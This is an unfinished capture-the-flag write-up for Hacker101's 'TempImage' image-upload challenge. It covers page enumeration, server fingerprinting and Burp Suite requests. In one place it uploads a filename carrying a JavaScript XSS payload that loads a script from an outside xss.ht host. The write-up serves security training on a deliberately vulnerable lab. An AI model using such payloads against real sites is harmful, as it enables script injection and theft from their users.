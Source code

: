 ```yaml
---
title: Hacker101 CTF TempImage
description: A write up for the TempImage [moderae] challenge
published: true
datePublished: 1611357758022
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - TempImage
  - security
thumbnailPhoto: /hackerone/hackerone.png
bannerPhoto: /hackerone/hackerone.png
canonicalUrl:
---
```


# TempImage _[moderate]_ `WIP`

This is my Write Up for the "TempImage" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to some sort of cloud storage application, on the main Page we get a really simple page:

```jsx
https://ctf.hacker101.com/ctf/launch/12

>
<html>
	<head>
		<title>TempImage &mdash; Trial</title>
	</head>
	<body>
		<h1>TempImage</h1>
		<p><b>UNREGISTERED</b></p>
		<p><a href="upload.php">Upload image</a></p>
	</body>
</html>
```

It signifies that its an UNEGISTERED version of the app, thus working in trial mode.

## Enumeration

So lets start to explore the app and what it can do. We start by clicking the "Upload image" Button.
This leads us to a new page **/upload.php**, here we can select a file from our computer, and have a submit button to send the form.

The form will be sent to a **doUpload.php** file. Upon closer inspection we alos see that there is a hidden field "filename", which gets filled in by aJS snippet.

```jsx
   <h1>Upload</h1>
		<form action="doUpload.php" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" id="file">
			<input type="hidden" name="filename" id="filename">
			<input type="submit" value="Upload">
		</form>
		<script>
			$(document).ready(function() {
				$('#file').change(function(e) {
					$('#filename').val(e.target.files[0].name)
				})
			})
	 </script>
```

So it seems this lil script extracts the `file.name` prop from the fileOpbject the user uploads to the input type="file".

Lets Try it out, It seems the file inpput allows any file to be chosen, lets try a 5mb .gif file.

```jsx
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
```

OK, fair, maybe 5mb was a it large, but we know we're working with an nginx 1.14 server on Ubuntu.
So how about we try a smaller gif?

```shell
ERROR: Only PNG format supported in trial.
```

Okay, finally we know what the app expects from us, a PNG file. So we try jsut that.
The upload succeeds, thus redirecting us to a new url:
`/files/be9c26aaea9d9b5085c7f6eed0812745_uhhhh.png`

so it seems our files are uploaded to the `/files/` directory, what a suprise, the file stil contains our original filename, preceeded by some gibberish.

we should deffinetly try to exploit this, check wheter or not they sanitize our filename.

Lets try uploading a file named: `javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

We now get redirected to this url `http://35.190.155.168/d29c8e00db/files/9975e7e24fac21e8b877a6d08efe09c6_javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

and we get served this content:

```javascript
Not Found
The requested URL /files/9975e7e24fac21e8b877a6d08efe09c6_javascript:eval('var a=document.createElement(\'script\');a.src=\'https:/Discover.xss.ht\';document.body.appendChild(a)').png was not found on this server.

Apache/2.4.7 (Ubuntu) Server at 127.0.0.1 Port 52736
```

so it seems there is potential there, we just need a more sophisticated payload to upload.

## Taking a step back

It's important not to get tunnelvision and only focus on your first finding, so lets take a step back and analyze the website using Burp Suite. Maybe we'll find something.
Lets analyze the upload URL first:

```shell
GET /d29c8e00db/upload.php HTTP/1.1
Host: 35.190.155.168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

This does not tell us that much, it seems the server could accep more than just PNG tho.

How about if we upload an image?

`POST /d29c8e00db/doUpload.php HTTP/1.1`

![image upload Request](/hackerone/tempimage/tempimage-hackerone101-burpSuite_fileupload.png "image upload Request")

> This Post is marked as `WIP` and will be updated continously.
